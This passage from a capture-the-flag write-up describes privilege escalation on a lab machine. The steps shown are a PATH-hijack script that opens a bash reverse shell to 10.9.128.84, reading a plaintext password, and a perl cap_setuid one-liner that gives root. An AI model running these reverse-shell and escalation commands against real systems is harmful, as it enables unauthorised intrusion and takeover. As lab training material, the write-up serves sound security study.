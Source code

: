 First i created an executable shellscript named date (in the rabbit's home folder, besides the binary)
```bash
# file: date
# perms: +x
# contents below
# ------------------ # 
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.9.128.84/1414 0>&1
```

Now i executed the binary and it did not worked. First i thought that maybe i would need to explore a library injection but then i checked the **PATH** env variable and it was not searching **/home/rabbit** for the date program

```bash
cmd [SSH]: export PATH=/home/rabbit:$PATH
cmd [SSH]: ./teaPArty

cmd [LOCAL]: whoami && id
hatter
uid=1003(hatter) gid=1001(alice) groups=1001(alice)
```

well, from the main function code we saw that it calls **setuid** and **setgid**, which is seen here (the previleges are dropped) <br>

At **Hatter's** home folder we only have one file
```bash
# cmd: ls -la /home/hatter
-rw------- 1 hatter hatter   29 May 25  2020 password.txt

# cmd: cat /home/hatter/password.txt
WhyIsARavenLikeAWritingDesk? 
```

This password, works for ssh :D <br>

I looked around for a bit (way longer than i really wanted), but ended up running linpeas and finding some interesting things :D
```s
/usr/bin/perl5.26.1 = cap_setuid+ep                                                                              
/usr/bin/mtr-packet = cap_net_raw+ep                                                                             
/usr/bin/perl = cap_setuid+ep
```

So, this capabities basically allow perl to set the suid bit and thus it allows for privilege escalation. directly from GTFO bins
```bash 
cmd: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'

cmd: whoami && id 
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```
